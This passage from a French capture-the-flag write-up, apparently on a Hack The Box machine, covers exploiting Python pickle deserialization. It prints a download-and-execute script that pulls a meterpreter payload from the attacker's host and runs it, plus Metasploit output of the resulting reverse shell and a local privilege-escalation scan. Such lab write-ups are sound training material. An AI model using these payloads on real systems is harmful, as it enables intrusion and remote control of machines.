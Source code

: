 C'est bien le 3ème CTF où je tombe sur du pickle, comme quoi si tu n'as pas exploité du pickle à 30 ans t'as raté ta vie :D  

Inutile de faire dans l'originalité, j'écrit d'abord un script de type download-execute :  

```python
import os
import urllib
import sys
import time
urllib.urlretrieve("http://10.10.15.207/devloop_meterpreter", "/var/tmp/devloop_meterpreter")
os.system("chmod 777 /var/tmp/devloop_meterpreter;/var/tmp/devloop_meterpreter &")
time.sleep(10)
```

Et on passe ça à [evilPick](https://github.com/francescolacerenza/evilPick) qui peut en plus nous l'encoder en base64 :)  

Pour l'envoi du payload, au choix avec cURL / requests / whatever...  

```plain
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 10.10.15.207:443
msf exploit(multi/handler) > [*] Sending stage (861480 bytes) to 10.10.10.91
[*] Meterpreter session 1 opened (10.10.15.207:443 -> 10.10.10.91:41722) at 2018-09-04 12:16:24 +0200

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=1002, gid=1002, euid=1002, egid=1002

msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.91 - Collecting local exploits for x86/linux...
[*] 10.10.10.91 - 23 exploit checks are being tried...
[+] 10.10.10.91 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The target service is running, but could not be validated.
[+] 10.10.10.91 - exploit/linux/local/pkexec: The target service is running, but could not be validated.
[*] Post module execution completed
```

Cette fois on a notre shell avec l’utilisateur *roosa* :)   

Commit leak
-----------

Via un listing récursif je note tout ce qui peut être d'intérêt dans le dossier personnel :  
